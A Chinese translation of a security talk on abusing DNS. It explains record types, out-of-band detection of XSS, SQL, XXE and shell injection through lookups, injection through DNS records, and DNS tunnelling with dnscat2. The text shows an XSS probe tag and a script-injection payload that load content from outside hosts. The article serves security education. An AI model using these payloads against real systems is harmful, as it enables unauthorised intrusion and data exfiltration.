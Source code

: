 # DNS: More than just names

from：[DNS: More than just names](https://docs.google.com/presentation/d/1HfXVJyXElzBshZ9SYNjBwJf_4MBaho6UcATTFwApfXw/preview?pli=1&sle=true#slide=id.p)

0x00 前言
-------

* * *

此文章讲得所有内容都是用的DNS本身设计的功能，但是没有想到可被利用的地方。

讨论的范围仅是利用DNS本身攻击。

所以不会讨论下面的DNS攻击，如：

> DNS污染 DNS错误配置（域传送等） DNSSec

等等

0x01 DNS是如何工作的
--------------

* * *

![enter image description here](http://drops.javaweb.org/uploads/images/a459ea6941d1279e4930d00ce3f0d73a766e57e4.jpg)

0x02 协议
-------

* * *

**DNS 类型**

有很多不同的记录类型，但是我们这次只关注A，AAAA，CNAME，MX和TXT记录。

A :: 获取一个IP地址

![enter image description here](http://drops.javaweb.org/uploads/images/72b4c0c1f5e90b1de3c369101b29c4fb5cb77c4b.jpg)

AAAA :: 获取一个IPv6地址

![enter image description here](http://drops.javaweb.org/uploads/images/b350777851d6cd6492e65446f2f6586f4a7ab823.jpg)

MX :: 邮箱服务器

![enter image description here](http://drops.javaweb.org/uploads/images/f058f8ea515a9a5dd3bb60479a09590b68cb47aa.jpg)

也有,

CNAME - 别名 TXT - 文本数据

别忘了： NB/NBSTAT - NetBIOS

数据包结构：

![enter image description here](http://drops.javaweb.org/uploads/images/7c9fed89a7628f112b7559e1977086128198acaf.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/6bc35e786fec8473f924246e932c7354228e9f48.jpg)

如果name是以一对“1”bit开头的，剩下的14bit说明实际域名所在位置相对DNS起始表示字段的偏移。

例如：如果name是“C0 0F”则表示 “使用出现偏移量为0x0F的名字。

详细解释可以参考：http://blog.csdn.net/twelvelee/article/details/6714115

当然，这可能指向自身，造成DNS客户机/服务器 无限循环。 :)

**反向DNS**

工作原理相同，但是有PTR的记录类型（特殊方法格式化ip地址）。

![enter image description here](http://drops.javaweb.org/uploads/images/946c6c33d485a8d7208c2d8f53ca67263e5d14af.jpg)

最终你可以甚至为任何你想要的。

这让我疑惑，什么是可信的？

![enter image description here](http://drops.javaweb.org/uploads/images/a53e84ef397d32b42dd8b36b6b322c1022934a54.jpg)

**侦查与DNS**

当遇到只能走dns的数据，其他的都被防火墙挡住的时候：

我拥有skullseclabs.org域名，所有的请求都通过*.skullseclabs.org转到我的DNS服务器。

**XSS**

当你插入的js代码在浏览者的浏览器中执行的时候，你如何知道呢？

如果user-agent内容会被插入执行，

```
<img src='http://ab12.skullseclabs.org/img.jpg'>

```

然后查看我的DNS服务器 ：

![enter image description here](http://drops.javaweb.org/uploads/images/a4475b9298caf26370b3579989c11e87ab3fddaa.jpg)

证明html代码被执行。

为什么我们关心呢？

因为，数据包看起来完全是正常的。 我们没有直接连接服务器，因此防火墙是不会知道的。

![enter image description here](http://drops.javaweb.org/uploads/images/44f1679c5351bad6c1903cd4c563e85bc0770763.jpg)

最后我们可以知道是或否有服务器想要连接，不需要成功连接，甚至不需要服务器尝试连接。我们还可以做什么呢？

想要知道谁给你发邮件？

非常简单用admin@abc123.skullseclabs.org

![enter image description here](http://drops.javaweb.org/uploads/images/e80d6f4ad6997376054b1f2010246a5ae4798231.jpg)

结论？可能什么都没有，或许能找到一个反垃圾邮件。

**SQL 注射**

两个可以执行DNS查询的SQL语句

![enter image description here](http://drops.javaweb.org/uploads/images/8d1cf6261b89cee626e33495bf6b51f0c636da7d.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/13af8b4c44bc08fe8de28a28af42fe7c737d5a4d.jpg)

**XXE 漏洞**

Google曾经给在他服务器上找到XXE漏洞的人支付了1W刀。

XXE能够让你读取系统的本地文件：

![enter image description here](http://drops.javaweb.org/uploads/images/6e9ea48e9b3c5f9748f4aa12533c2cd4bad46e85.jpg)

同时也可以请求远程服务器

![enter image description here](http://drops.javaweb.org/uploads/images/540fe69dd2e5f2430d958376eada8f79af56c0f7.jpg)

我们就有了一种探测XXE漏洞的一种方式：

![enter image description here](http://drops.javaweb.org/uploads/images/59b7b9d220e0fff3948caeb3964ade2d28b3298f.jpg)

即使存在防火墙，或者服务器限制严格一些文件不能读取，你仍然能够探测到XXE漏洞。

通过DNS直接获取数据不太可能，但是用来检测是否有漏洞是个很有效的办法。

**shell注入**

使用这种方法，很容易检测到shell的注入，适用与不同的平台上。

插入一个DNS查询：

![enter image description here](http://drops.javaweb.org/uploads/images/4acc634f4dac14d250427559ae238685678eccbb.jpg)

（适用于Windows，Linux，BSD）

有人想起来这个周的ShellShock吗？

![enter image description here](http://drops.javaweb.org/uploads/images/e1d4bd4a53b1585b4921ef769d7fe870a21cbd9e.jpg)

**Attack over DNS**

安全性就是边界。

受信任的数据在一边，不受信任的数据在了另外一边。

当你做了DNS查询，你又考虑到结果不可信吗？

看看下面代码有安全问题吗？

![enter image description here](http://drops.javaweb.org/uploads/images/d51a67a5faeeadd0f501d481d19bca96a3d7a10d.jpg)

把TXT记录改成如下，最终导致SQL注入：

![enter image description here](http://drops.javaweb.org/uploads/images/0051ede0dbcb9f637ede2f4245f4d92730b5ee95.jpg)

下面有一篇详细的DNS注入的writeup

https://blog.skullsecurity.org/2014/plaidctf-writeup-for-web-300-whatscat-sql-injection-via-dns

下面是一个有效的CNAME，MX，TXT，PTR等记录（双引号和空格不允许）

```
<script/src='http://javaop.com/test-js.js'></script>

```

显然TXT记录可以做更多的事情。

在2010年的时候我测试三个访问最多的域名查询系统的时候全部都有这个漏洞

现在其中的一个仍然有此问题。

**DNS隧道**

![enter image description here](http://drops.javaweb.org/uploads/images/f03a90f7b792364894c9edd4e3addcf1dc831d7a.jpg)

如何传送数据呢？

![enter image description here](http://drops.javaweb.org/uploads/images/7edf354d9d8f7ad43dcbf03b7704396963a7f4ce.jpg)

来回的通信：

![enter image description here](http://drops.javaweb.org/uploads/images/c194cf62ba3fdbf2c6c75ff303b6d86d66c1fb0a.jpg)

实际的过程：

![enter image description here](http://drops.javaweb.org/uploads/images/212555610ab00b68de239dec4a11a1900b15fe9c.jpg)

作者自己还解决的一些压缩等问题，最后给出自己写的工具地址：

[https://github.com/iagox86/dnscat2](https://github.com/iagox86/dnscat2)